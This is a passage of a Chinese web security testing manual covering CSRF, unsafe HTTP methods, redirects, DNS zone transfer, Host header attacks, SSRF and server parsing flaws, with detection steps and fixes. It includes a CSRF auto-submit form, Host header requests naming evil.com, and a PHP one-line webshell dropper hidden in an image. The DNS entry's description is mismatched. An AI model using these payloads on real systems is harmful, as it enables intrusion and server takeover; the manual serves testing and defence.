	[4] $（美元符号）
	[5] %（百分比符号）
	[6] @（at 符号）
	[7] '（单引号）
	[8] "（引号）
	[9] \'（反斜杠转义单引号）
	[10] \"（反斜杠转义引号）
	[11] <>（尖括号）
	[12] ()（括号）
	[13] +（加号）
	[14] CR（回车符，ASCII 0x0d）
	[15] LF（换行，ASCII 0x0a）
	[16] ,（逗号）
	[17] \（反斜杠）
	2、在请求返回页面关键字符进行转义；
	[1] “（双引号）：&quot
	[2] ’ （单引号）：&apos
	[3] &（&符号）：&amp
	[4] <（左尖括号）：&lt
	[5] >（右尖括号）：&gt
	在不影响应用的前提下，建议将cookie标记为httpOnly，同时禁用TRACE方法。
### 4.8.2跨站伪造请求（CSRF） ###
	漏洞名称	
	跨站伪造请求（CSRF）
	漏洞描述	
	跨站请求伪造攻击，Cross-Site Request Forgery（CSRF），攻击者在用户浏览网页时，利用页面元素（例如img的src），强迫受害者的浏览器向Web应用服务器发送一个改变用户信息的HTTP请求。CSRF攻击可以从站外和站内发起。从站内发起CSRF攻击，需要利用网站本身的业务，比如“自定义头像”功能，恶意用户指定自己的头像URL是一个修改用户信息的链接，当其他已登录用户浏览恶意用户头像时，会自动向这个链接发送修改信息请求。从站外发送请求，则需要恶意用户在自己的服务器上，放一个自动提交修改个人信息的htm页面，并把页面地址发给受害者用户，受害者用户打开时，会发起一个请求。威胁描述：攻击者使用CSRF攻击能够强迫用户向服务器发送请求，导致用户信息被迫修改，甚至可引发蠕虫攻击。如果恶意用户能够知道网站管理后台某项功能的URL，就可以直接攻击管理员，强迫管理员执行恶意用户定义的操作。
	危害等级（参考）
	高危
	
	检测条件	
	Web业务运行正常
	存在数据提交的所有功能点。
	检测方法	
	检测方式多种多样：工具常常会扫描得到CSRF的漏洞，但是一般常常为误报，重点还是依靠手工来进行检测，以下来举例说明其中一种检测以及攻击方案：
	1、设置页面test.htm中，页面中有一个表单，和一段脚本，脚本的作用是，当页面加载时，浏览器会自动提交请求。页面代码如下：
	<form id="modify" action="http://www.test.com/servlet/modify" method="POST">
	<input name="email">
	<input name="tel">
	<input name="realname">
	<input name="userid">
	<input type="submit">
	</form>
	
	2、诱使用户在登录目标系统后执行URL链接http://xx.x.xx.xxx /test.htm
	3、用户打开test.htm后，会自动提交表单，发送给www.test.com下的那个存在CSRF漏洞的web应用，用户信息被篡改
	4、在整个攻击过程中，受害者用户仅仅看到了一个空白页面（可以伪造成其他无关页面），并且一直不知道自己的信息已经被修改了
	修复方案	
	修复方案如下：
	1、通过referer判断页面来源进行CSRF防护，该方式无法防止站内CSRF攻击及referer字段伪造。
	2、重要功能点使用动态验证码进行CSRF防护。
	3、通过token方式进行CSRF防护：
	1、在Session中绑定token。如果不能保存到服务器端Session中，则可以替代为保存到Cookie里。
	2、在form表单中自动填入token字段，比如 <input type=hidden name="anti_csrf_token" value="$token" />。
	3、在HTTP请求中自动添加token。
	在服务器端对比POST提交参数的token与Session中绑定的token是否一致，以验证CSRF攻击
	4、为每个session创建唯一的随机字符串，并在受理请求时验证：
	<form  action="/transfer.do" method="post">
	 <input type="hidden" name="randomStr" value=<%=request.getSession().getAttribute("randomStr")%>>
	 ......
	</form>
	//判断客户端提交的随机字符串是否正确
	String randomStr = (String)request.getParameter("randomStr");
	if(randomStr == null) randomStr="";
	if(randomStr.equals(request.getSession().getAttribute("randomStr")))
	{//处理请求}
	else{
	//跨站请求攻击，注销会话
	}
	

	
### 4.8.3不安全的HTTP方法 ###
	漏洞名称	
	不安全的HTTP方法、危险的HTTP方法
	漏洞描述	
	不安全的HTTP方法一般包括：TRACE、PUT、DELETE、COPY 等。其中最常见的为TRACE方法可以回显服务器收到的请求，主要用于测试或诊断，恶意攻击者可以利用该方法进行跨站跟踪攻击（即XST攻击），从而进行网站钓鱼、盗取管理员cookie等。 其他说明方式如图所示：



	危害等级（参考）
	低危，可被利用后可以为中危
	
	检测条件
	1、	已知Web网站IP地址及Web访问端口
	2、Web业务正常运行
	检测方法	
	点击“开始”－“运行”，输入cmd并回车，运行nc.exe
	1、输入nc.exe –nvv IP 端口 （其中IP和端口按实际情况填写，用空格隔开）
	2、回车
	3、在新行中输入如下一行，并回车
	OPTIONS / HTTP/1.1
	4、观察返回结果中的Allow的方法列表
	返回结果样例：
	HTTP/1.1 200 OK
	Server: Apache-Coyote/1.1
	X-Powered-By: Servlet 2.4; JBoss-4.0.5.GA (build: CVSTag=Branch_4_0 date=200610162339)/Tomcat-5.5
	Allow: GET, HEAD, POST, PUT, DELETE, TRACE, OPTIONS
	Content-Length: 0
	Date: Mon, 29 Jun 2009 08:02:47 GMT
	Connection: close
	如果返回结果中包含不安全的HTTP方法（DELETE、PUT、TRACE、MOVE、COPY），则验证这些防范是否可用.
	5、如果方法可用则说明存在漏洞，如图所示为检测到的trace方法



	由于不同的Web服务器支持的HTTP协议版本不同，如果系统不支持HTTP/1.0，那么步骤4返回 “HTTP/1.0 400 Bad Request”；这种情况下，应该更改步骤4的输入行为OPTIONS / HTTP/1.1
	
	修复方案	
	以下为针对不安全的HTTP方法中的TRACE相关的修复建议：：
	1、中间件为apache服务器
	利用apache服务器的rewrite功能，对TRACE请求进行拦截。编辑httpd.conf文件增加下面内容：
	RewriteEngine On
	RewriteCond %{REQUEST_METHOD} ^(TRACE|TRACK)
	RewriteRule .* - [F]
	更详细的解释如下：
	LoadModule rewrite_module modules/mod_rewrite.so #  首先，激活rewrite模块
	RewriteEngine On #  启用Rewrite引擎
	RewriteCond %{REQUEST_METHOD} ^(TRACE|TRACK)  # 对Request中的Method字段进行匹配：^TRACE 即以TRACE字符串开头
	RewriteRule .* - [F]   #   定义规则：对于所有格式的来源请求，均返回[F]-Forbidden响应。
	对于1.3.34以上和2.0.55以上版本的apache服务器，配置文件增加：TraceEnable off
	或者用如下方法：
	在项目或tomcat下的web.xml中，添加如下配置：
	<!-- 关闭不安全的HTTP方法   -->
		<security-constraint>
	        <web-resource-collection>
	                <web-resource-name>任意名称</web-resource-name>
	                <url-pattern>/*</url-pattern>
	                <http-method>PUT</http-method>
	                <http-method>DELETE</http-method>
	                <http-method>HEAD</http-method>
	                <http-method>OPTIONS</http-method>
	                <http-method>TRACE</http-method>
	        </web-resource-collection>
	        <auth-constraint></auth-constraint>
		</security-constraint>
		<login-config>
		<auth-method>BASIC</auth-method>
	2、中间件为Microsoft IIS
	如果你使用的是Microsoft IIS, 使用URLScan工具禁用HTTP TRACE请求，或者只开放满足站点需求和策略的方式。安装URLScan（URLScan是微软提供给IIS6的路径重定向工具，在这里下载: http://www.iis.net/learn/extensions/working-with-urlscan/urlscan-3-reference），在URLScan.ini中配置，只允许GET、HEAD和POST这三个常用命令（UseAllowVerbs=1）。
	3、中间件为Sun ONE Web Server releases 6.0
	如果你使用的是Sun ONE Web Server releases 6.0 SP2 或者更高的版本, 在obj.conf文件的默认object section里添加下面的语句:
	<Client method="TRACE">
	AuthTrans fn="set-variable"
	remove-headers="transfer-encoding"
	set-headers="content-length: -1"
	error="501"
	</Client>
	4、Sun ONE Web Server releases 6.0 SP2
	如果你使用的是Sun ONE Web Server releases 6.0 SP2 或者更低的版本, 编译如下地址的NSAPI插件:
	http://sunsolve.sun.com/pub-cgi/retrieve.pl?doc=fsalert%2F50603
	5、
	其他说明	由于不同的Web服务器支持的HTTP协议版本不同，如果系统不支持HTTP/1.0，那么步骤4返回 “HTTP/1.0 400 Bad Request”；这种情况下，应该更改步骤4的输入行为OPTIONS / HTTP/1.0
## 4.9其他 ##
### 4.9.1跨域访问漏洞 ###
	漏洞名称	
	flash跨域漏洞、跨域访问漏洞
	漏洞描述	
	不正确的crossdomain.xml策略将导致严重的安全问题，如信息泄露、CSRF等，如下几种是跨域漏洞所产生的常见几种不正确设置：
	1：permitted-cross-domain-policies为all造成加载目标域上的任何文件作为跨域策略文件，甚至是一 个JPG也可被加载为策略文件。
	2：allow-access-from 设为“*”任何的域，有权限通过flash读取本域中的内容，表示匹配所有域和所有 IP 地址，此时任何域均可跨域访问本域上的内容。
	3：allow-http-request-headers-from header设个“*”允许发送任何消息头。
	危害等级（参考）
	低危，可被利用后可以为中危
	
	检测条件	
	已知Web网站外泄crossdomain.xml文件。
	检测方法	
	打开网站并且进行信息收集。
	1、手工或者利用web扫描工具，找到crossdomain.xml文件，查看其配置。如果出现如下配置，则说明存在该漏洞。
	<?xml version="1.0"?>
	  <cross-domain-policy> 
	<site-control permitted-cross-domain-policies="all" />
	  <allow-access-from domain="*" />
	  <allow-http-request-headers-from domain="*" headers="*"/>
	</cross-domain-policy>
	
	修复方案
	修改crossdomain.xml文件，使其内容保持如下设置：
	1、 allow-access-from标签的domain属性检测：domain属性应根据最小化原则按需设置，仅允许可信任的来源跨域请求本域内容。禁止将该属性值设置为“*”。
	2、allow-http-request-headers-from标签的domain属性检测：domain属性应根据最小化原则按需设置，仅允许可信任的来源向本域跨域发送内容。禁止将该属性值设置为“*”。
	3、site-control标签的permitted-cross-domain-policies属性检测：根据业务的实际需求及可行性，对该属性做相应设置。禁止将该属性值设置为“all”。
	其他说明	
### 4.9.2URL重定向 ###
	漏洞名称	
	URL重定向、跳转漏洞
	漏洞描述	
	服务端未对传入的跳转url变量进行检查和控制，可能导致可恶意构造任意一个恶意地址，诱导用户跳转到恶意网站。由于是从可信的站点跳转出去的，用户会比较信任，所以跳转漏洞一般用于钓鱼攻击，通过转到恶意网站欺骗用户输入用户名和密码盗取用户信息，或欺骗用户进行金钱交易；也可能引发的XSS漏洞（主要是跳转常常使用302跳转，即设置HTTP响应头，Locatioin: url，如果url包含了CRLF，则可能隔断了http响应头，使得后面部分落到了http body，从而导致xss漏洞）。另外在struts2 中存在重定向的漏洞，是因为struts2由于缩写的导航和重定向前缀“action:”、 “redirect:”、 “redirectAction:” 等参数前缀的内容没有被正确过滤导致的开放式重定向漏洞。
	检测条件	已知Web网站具有登录页面。
	危害等级（参考）
	中危
	
	
	检测方法	
	首先找到网站相关url中存在跳转链接的参数（常见的有登陆页面）。
	1、在检测的同时，可以修改参数中的合法URL为非法URL，然后查看是否能正常跳转或者通过抓包工具获取其HTTP响应头中host:的值是否包含了任意的构造URL。
	2、如果是struts2重定向漏洞，则可通过web扫描工具扫描发现，或者手工验证，直接在URL后添加?redirect:+指定钓鱼链接，例如：10.1.82.53:9098/admin/login.action?redirect:http://diaoyu.com进行验证，或者：http://host/struts2-blank/example/X.action?action:%25{3*4}如图所示，则证明存在URL重定向漏洞：



	修复方案	
	以下为针对URL重定向漏洞的修复建议：：
	1、若跳转的URL事先是可以确定的，包括url和参数的值，则可以在后台先配置好，url参数只需传对应url的索引即可，通过索引找到对应具体url再进行跳转；
	2、若跳转的URL事先不确定，但其输入是由后台生成的（不是用户通过参数传人），则可以先生成好跳转链接然后进行签名，而跳转cg首先需要进行验证签名通过才能进行跳转；
	3、若1和2都不满足，url事先无法确定，只能通过前端参数传入，则必须在跳转的时候对url进行按规则校验：即控制url是否是公司授权的白名单或者是符合公司规则的url，参考代码：function checkURL ( sURL) {
	function checkURL ( sURL) {
	        return (/^(https?:\/\/)?[\w\-.]+\.(yourDomainA|yourDomainB|yourDomainC)\.com($|\/|\\)/i).test
	(sUrl)||(/^[\w][\w\/\.\-_%]+$/i).test(sUrl)||(/^[\/\\][^\/\\]/i).test(sUrl) ? true : false;   
	    }
	4、通过对referer的限制：如果确定传递URL参数进入的来源，我们可以通过该方式实现安全限制，保证该URL的有效性，避免恶意用户自己生成跳转链接；
	5、加入有效性验证Token：我们保证所有生成的链接都是来自于我们可信域的，通过在生成的链接里加入用户不可控的Token对生成的链接进行校验，可以避免用户生成自己的恶意链接从而被利用，在跳转时做判断，指定跳转的值。当用户访问需要跳转URL的页面时，生成随机token，并保存到Cookie中，后台应用程序在跳转前，判断token是否和cookie中的token一致。
	6、理论上讲，url跳转属于CSRF的一种，跳转url检测中也加入了CRLF头部注入漏洞的检测逻辑, 具体就是在请求参数中加入了%0d%0a这种测试代码，需要对这些参数进行删除处理(事实上：在判断到一个参数中包含 %00 -> %1f 的控制字符时都是不合法的，需对其进行删除)。
	7、如果为struts2重定向漏洞，则需要更新相关的struts2的版本到最新。
	其他说明	
### 4.9.3DNS域传送漏洞 ###
	漏洞名称	
	DNS域传送漏洞，DNS区域传输
	漏洞描述	
	JBOSS默认配置会有一个后台漏洞，漏洞发生在jboss.deployment命名空间，中的addURL()函数,该函数可以远程下载一个war压缩包并解压。 如果压缩包里含有webshell文件，是直接可以解析的。
	危害等级（参考）
	中危
	检测条件	
	被测网站可正常访问。
	检测方法	
	其实利用方法分为手工和工具两种，我们可以利用BT5下面的工具Dnsenum或者是其它工具，手工的话就利用nslookup即可
	1、使用工具来获取DNS信息：
	使用工具来获取DNS信息
	cd /pentest/enumeration/dns/dnsenum
	# ./dnsenum.pl --enum domain.com
	这样就可以简单的利用了。
	2、使用手工的方法，推荐。方法如下：
	查看方法： 
	> set type=ns  //现获取ns记录
	> npc.gov.cn
	> server ns.npc.gov.cn  //设置ns
	> set type=axfr     //设置区域传输
	> ls -d npc.gov.cn
	查看效果如下：

 
	
	修复方案
	以下为常见的修复方式：
	1、Windows 界面禁止DNS域传送漏洞方法：
	1.	打开 DNS。
	2.	使用鼠标右键单击一个 DNS 区域，然后单击“属性”。 
	3.	在“区域传输”选项卡，执行下列操作之一： 
		要禁用区域传输，请清除“允许区域传输”复选框。 
		要允许区域传输，请选中“允许区域传输”复选框。 
	4.	如果允许进行区域传输，请执行下列操作之一： 
		要允许向任何服务器进行区域传输，请单击“到所有服务器”。 
		要只允许向“名称服务器”选项卡上列出的 DNS 服务器进行区域传输，请单击“只有在名称服务器选项卡中列出的服务器”。 要只允许向特定 DNS 服务器进行区域传输，请单击“只允许到下列服务器”，然后添加一个或多个 DNS 服务器的IP 地址。
	2、Bind 9界面禁止DNS域传送漏洞方案：
	关闭BIND9对于ls命令功能，在named.conf.options这样写，对于有slave或者特殊需要的，用ip替换none即可allow-transfer { none; };
	3、如果你使用 bind 8，可以在“named.conf”文件（缺省路径是/etc/named.conf）的对某个域的域传输进行限制。
	例如，您可以只允许自己本地主机以及某个可信主机（比如辅助域名服务器）对"linux.bogus"域进行域传输：
	zone "linux.bogus" {
	allow-transfer { 192.168.1.4; localhost; };
	};
	注意：在修改完配置文件之后，需要重新启动named。
	4、如果您使用的是Windows DNS Server，可以启动DNS Manager，在Zone Properties窗口中有一个DNS SERVER的列表，选中Only Allow Access From Secondaries Included on Notify List复选项，服务器就会限制可以进行区域传送的服务器，只有Notify List中授权了的辅DNS Server才可以进行区域传送。
	5、设置DNS安全策略：
	1.隔离DNS服务器，专机专用
	2.隐藏BIND的版本号
	3.使用备份域名服务器
	4.Chroot bind
	5.禁止区域传送
	
### 4.9.4Web服务器多余端口开放 ###
	漏洞名称	
	Web服务器多余端口开放、开放多余端口、
	漏洞描述	
	Web应用服务器除业务端口外还会开放一些默认端口（如Jboss开放的8083），这些默认端口对最终用户是不需要开放的，而且也不会用于维护，容易被攻击，本测试目的在于发现服务器上未使用的Web端口。。
	危害等级（参考）
	低危，可被利用后可以为中危
	检测条件	
	已知服务器具有开放web服务。
	已知Web服务器域名或IP地址，假设IP地址为192.168.1.1
	检测方法	
	安装NMAP或者类似的端口扫描工具，进行端口扫描，以下为nmap的dos命令操作：
	1、打开命令提示符，切换到nmap路径下,输入cd /d d:\nmap
	2、运行nmap –n –P0 –sS –sV –p1-65535 –oX scan_report.xml 192.168.1.1
	3、使用浏览器打开scan_report.xml
	4、观察结果，看是否为必须开放的Web服务端口。
	常见端口：8080、8090、8099、8088、3306、3389、111、135、等
	修复方案	
	建议按照网站的开放端口要求，进行对不必要的服务的端口设置为禁止。 
	4.9.5HTTP Host头攻击#
	漏洞名称	
	HTTP Host头攻击
	漏洞描述	
	一般通用web程序是如果想知道网站域名不是一件简单的事情，如果用一个固定的URI来作为域名会有各种麻烦。开发人员一般是依赖HTTP Host header（比如在php里是_SERVER["HTTP_HOST"] ），而这个header很多情况下是靠不住的。而很多应用是直接把这个值不做html编码便输出到了页面中，比如：
	<link href="http://_SERVER['HOST']"    
	这样处理问题一般会很容易遭遇到两种常见的攻击：缓存污染和密码重置。缓存污染是指攻击者通过控制一个缓存系统来将一个恶意站点的页面返回给用户。密码重置这种攻击主要是因为发送给用户的内容是可以污染的，也就是说可以间接的劫持邮件发送内容。
	危害等级（参考）
	中危
	检测条件	
	被测网站使用了依赖HTTP Host header的功能。
	网站具有密码重置，发送邮件功能
	检测方法	 
	   检测方法可以根据上述两种方式：
	1、密码重置污染攻击，点击重置密码的链接时，url::abs_site 这一部分使用的Host header是来自用户重置密码的请求，那么可以通过一个受他控制的链接来污染密码重置的邮件，例如替换host：当然这种攻击方式一定要能骗取用户点击访问这个受污染的链接，如果用户警觉了没有点击，那么攻击就会失败
	> POST /password/reset HTTP/1.1
	> Host: evil.com
	> ...
	> csrf=1e8d5c9bceb16667b1b330cc5fd48663&name=admin
	
	2、通过Host header来污染缓存的攻击方法:
	因此为了能使缓存能将污染后的response返回给用户，我们还必须让缓存服务器看到的host header 和应用看到的host header 不一样, 比如说对于Varnish（一个很有名的缓存服务软件），可以使用一个复制的Host header。Varnish是通过最先到达的请求的host header来辨别host的，而Apache则是看所有请求的host，Nginx则只是看最后一个请求的host。这就意味着你可以通过下面这个请求来欺骗Varnish达到污染的目的
	> GET / HTTP/1.1
	> Host: example.com
	> Host: evil.com
	3、利用web漏洞扫描工具进行检测。
	修复方案	
	1、服务器方面：
	由于http请求的特点，host header的值其实是不可信的。唯一可信的只有SERVER_NAME，这个在Apache和Nginx里可以通过设置一个虚拟机来记录所有的非法host header。在Nginx里还可以通过指定一个SERVER_NAME名单，Apache也可以通过指定一个SERVER_NAME名单并开启UseCanonicalName选项。建议两种方法同时使用。
	Varnish很快会发布一个补丁。在官方补丁出来前，可以通过在配置文件里加入：
	import std;
	        sub vcl_recv {
	                std.collect(req.http.host);
	        }
	2、应用方面：
	解决这个问题其实是很困难的，因为没有完全自动化的方法来帮助客户识别哪些host 的值是值得信任的。虽然做起来有点麻烦，但是最安全的做法是：在网站安装和初始化的时候，要求管理员提供一个可信任的域名白名单。如果这个实现起来比较困难，那至少也要保证使用SERVER_NAME而不是host header，也就是取得HOST值并保存设为常量并且鼓励用户使用安全配置做的比较好的站点。
	详细漏洞信息，请参考：http://drops.wooyun.org/papers/1383

### 4.9.6SSRF攻击###
	漏洞名称	
	服务端请求伪造攻击（SSRF）
	漏洞描述	
	服务端请求伪造攻击（Server-side Request Forgery）: 很多web应用都提供了从其他的服务器上获取数据的功能。使用用户指定的URL，web应用可以获取图片，下载文件，读取文件内容等。这个功能如果被恶意使用，可以利用存在缺陷的web应用作为代理攻击远程和本地的服务器。这种形式的攻击称为服务端请求伪造攻击（Server-side Request Forgery）。一般情况下， SSRF攻击的目标是从外网无法访问的内部系统 。（ 正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统 ）.SSRF 形成的原因大都是由于 服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制 。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。攻击者利用ssrf可以实现的攻击主要有5种:
	1.可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
	2.攻击运行在内网或本地的应用程序（比如溢出）;
	3.对内网web应用进行指纹识别，通过访问默认文件实现;
	4.攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;
	5.利用file协议读取本地文件等。
	危害等级（参考）
	中危，可被利用后可以为高危
	
	检测条件	
	Web业务运行正常
	存在具有交互的功能点。
	检测方法	
	从WEB功能上寻找：我们从上面的概述可以看出，SSRF是由于服务端获取其他服务器的相关信息的功能中形成的，因此我们大可以列举几种在web 应用中常见的从服务端获取其他服务器信息的的功能。
	1、通过分享功能：通过URL地址分享网页内容：
	早期分享应用中，为了更好的提供用户体验，WEB应用在分享功能中，通常会获取目标URL地址网页内容中的<tilte></title>标签或者<meta name="description" content=“”/>标签中content的文本内容作为显示以提供更好的用户体验。例如人人网分享功能中：http://widget.renren.com/*****?resourceUrl=https://www.test.com
	通过目标URL地址获取了title标签和相关文本内容。而如果在此功能中没有对目标地址的范围做过滤与限制则就存在着SSRF漏洞.
	2、转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览：由于手机屏幕大小的关系，直接浏览网页内容的时候会造成许多不便，因此有些公司提供了转码功能，把网页内容通过相关手段转为适合手机屏幕浏览的样式。例如百度、腾讯、搜狗等公司都有提供在线转码服务。
	3、在线翻译：通过URL地址翻译对应文本的内容。提供此功能的国内公司有百度、有道等。
	4、图片加载与下载，通过URL地址加载或下载图片：图片加载远程图片地址此功能用到的地方很多，但大多都是比较隐秘，比如在有些公司中的加载自家图片服务器上的图片用于展示。（此处可能会有人有疑问，为什么加载图片服务器上的图片也会有问题，直接使用img标签不就好了？ ，没错是这样，但是开发者为了有更好的用户体验通常对图片做些微小调整例如加水印、压缩等，所以就可能造成SSRF问题）。
	5、图片、文章收藏功能：此处的图片、文章收藏中的文章收藏就类似于功能一、分享功能中获取URL地址中title以及文本的内容作为显示，目的还是为了更好的用户体验，而图片收藏就类似于功能四、图片加载。
	6、未公开的api实现以及其他调用URL的功能：此处类似的功能有360提供的网站评分，以及有些网站通过api获取远程地址xml文件来加载内容.
	修复方案	
	通常有以下5个思路：
	 1、过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。
	2、限制请求的端口为http常用的端口，比如，80,443,8080,8090。
	3、黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。
	4、禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
### 	4.9.7Web服务器解析漏洞# ###
	漏洞名称	
	Web服务器解析漏洞
	漏洞描述	
	服务器相关中间件存在一些解析漏洞，攻击者可通过上传一定格式的文件，被服务器的中间件进行了解析，这样就对系统造成一定危害。常见的服务器解析漏洞涉及的中间件有IIS，apache、nginx、等。
	危害等级（参考）
	中危
	检测条件	
	Web业务运行正常。
	Php+mysql的搭配，则需要进行检测。
	检测方法	
	以下为常见的各大web服务器所出现过的解析漏洞汇总，在检测时刻参考：
	1、IIS 6.0
	目录解析：/xx.asp/xx.jpg  xx.jpg可替换为任意文本文件(e.g. xx.txt)，文本内容为后门代码 IIS6.0会将 xx.jpg 解析为 asp 文件。
	后缀解析：/xx.asp;.jpg     /xx.asp:.jpg(此处需抓包修改文件名) IIS6.0都会把此类后缀文件成功解析为 asp 文件。
	默认解析：/xx.asa    /xx.cer   /xx.cdx IIS6.0默认的可执行文件除了 asp 还包含这三种此处可联系利用目录解析漏洞/xx.asa/xx.jpg 或/xx.cer/xx.jpg 或 xx.asa;.jpg
	2、IIS 7.0/IIS 7.5/Nginx <8.03
	IIS 7.0/IIS 7.5/Nginx<8.03在默认Fast-CGI开启状况下,在一个文件路径(/xx.jpg)后面加上/xx.php会将/xx.jpg/xx.php 解析为 php 文件。常用利用方法：将一张图和一个写入后门代码的文本文件合并将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾:
	copy xx.jpg/b + yy.txt/a xy.jpg ######################################/b 即二进制[binary]模式/a 即ascii模式 xx.jpg正常图片文件  yy.txt 内容<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>意思为写入一个内容为<?php eval($_POST[cmd])?>名称为shell.php的文件######################################找个地方上传 xy.jpg ,然后找到 xy.jpg 的地址，在地址后加上/xx.php 即可执行恶意文本。然后就在图片目录下生成一句话木马 shell.php 密码 cmd
	3、Nginx <8.03
	在Fast-CGI关闭的情况下，Nginx<8.03依然存在解析漏洞在一个文件路径(/xx.jpg)后面加上%00.php会将/xx.jpg%00.php解析为 php 文件
	4、Apache
	后缀解析：test.php.x1.x2.x3  Apache将从右至左开始判断后缀，若x3非可识别后缀，再判断x2，直到找到可识别后缀为止，然后将该可识别后缀进解析  test.php.x1.x2.x3 则会被解析为php 经验之谈：php|php3|phtml 多可被Apache解析
	5、其他一些可利用的：
	在windows环境下，xx.jpg[空格]或xx.jpg.这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，这也是可以被利用的！在向一台windows主机上传数据时，你可以抓包修改文件名，在后面加个空格或点，试图绕过黑名单，若上传成功，最后的点或空格都会被消除，这样就可得到shell。我记得FckPhp2.6就存在加空格绕过的漏洞。{Linux主机中不行，Linux允许这类文件存在}如果在Apache中
	.htaccess可被执行（默认不执行，这是90sec里的一位朋友说的，当初我并不知道），且可以被上传，那可以尝试在.htaccess中写入:<FilesMatch“shell.jpg”>SetHandler application/x-httpd-php </FilesMatch> shell.jpg换成你上传的文件，这样shell.jpg就可解析为php文件
	6、lighttpd
	xx.jpg/xx.php  
	修复方案	
	1、针对IIS解析漏洞： 
	程序方面：
	1、对新建目录文件名进行过滤，不允许新建包含.的文件夹。 
	2、取消网站后台新建目录的功能,不允许新建目录。
	3、及时打取中间件补丁。
	服务器方面：
	1、限制上传目录的脚本执行权限，不允许执行脚本。
	2、过滤.asp/xm.jpg,通过ISApi组件过滤。 在httpd.ini加入了以下规则 ASP 
	RewriteRule (.*).asp/(.*) /no.gif RewriteRule (.*).Asp/(.*) /no.gif RewriteRule (.*).aSp/(.*) /no.gif RewriteRule (.*).asP/(.*) /no.gif
	2、针对Nginx解析漏洞： 
	1、修改php.ini，设置cgi.fix_pathinfo = 0;然后重启php-cgi。此修改会影响到使用PATH_INFO伪静态的应用，例如我以前博文的URL：http://blog.zyan.cc/read.php/348.htm 就不能访问了；
	2、在nginx的配置文件添加如下内容后重启：if ( $fastcgi_script_name ~ \..*\/.*php ) {return 403;}。该匹配会影响类似 http://www.domain.com/software/5.0/test.php（5.0为目录），http://www.domain.com/goto.php/phpwind 的URL访问.
	3、对于存储图片的location{...}，或虚拟主机server{...}，只允许纯静态访问，不配置PHP访问。例如在金山逍遥网论坛、SNS上传的图片、附件，会传送到专门的图片、附件存储服务器集群上（pic.xoyo.com），这组服务器提供纯静态服务，无任何动态PHP配置。各大网站几乎全部进行了图片服务器分离，因此Nginx的此次漏洞对大型网站影响不大。
	4、修改nginx.conf配置文件的临时解决方法，兼容“http://blog.zyan.cc/demo/0day/phpinfo.php/test”的PATH_INFO伪静态，拒绝“http://blog.zyan.cc/demo/0day/phpinfo.jpg/test.php”的漏洞攻击，代码如下：
	location ~* .*\.php($|/)
	{
	      if ($request_filename ~* (.*)\.php) {
	            set $php_url $1;
	      }
	      if (!-e $php_url.php) {
	            return 403;
	      }
	
	      fastcgi_pass  127.0.0.1:9000;
	      fastcgi_index index.php;
	      include fcgi.conf;
	}
	3、针对Apache解析漏洞： 
	1、用伪静态能解决这个问题，重写类似。php.*这类文件：
	打开apache的httpd.conf
	找到LoadModule rewrite_module modules/mod_rewrite.so
	把#号去掉，重启apache，在网站根目录下建立。htaccess文件，代码如下：
	<IfModule mod_rewrite.c>
	RewriteEngine On
	RewriteRule .(php.|php3.) /index.php
	RewriteRule .(pHp.|pHp3.) /index.php
	RewriteRule .(phP.|phP3.) /index.php
	RewriteRule .(Php.|Php3.) /index.php
	RewriteRule .(PHp.|PHp3.) /index.php
	RewriteRule .(PhP.|PhP3.) /index.php
	RewriteRule .(pHP.|pHP3.) /index.php
	RewriteRule .(PHP.|PHP3.) /index.php
	</IfModule>
	根据自己要求修改自己定义的执行php的后缀，用|隔开就行。 /index.php可以换成你想要显示的文件。
	4、其他解决方案：使用McAfee VirusScan软件的访问保护中的自定义规则，新建文件/文件夹阻挡规则，配置：规则名称随便填写，要包含的进程填*，要阻止的文件夹或文件名中写**\*.asp\*.*，以上方法很简单，是对整个服务器进行设置的。
	附录

5.1Web常见检测工具
安全工具如下：

工具名称	简介

AppScan	IBM Rational AppScan，在Web安全测试中所使用的自动化扫描工具

Httprint	Web服务器类型和版本的探测工具

Sqlmap	SQL注入测试工具

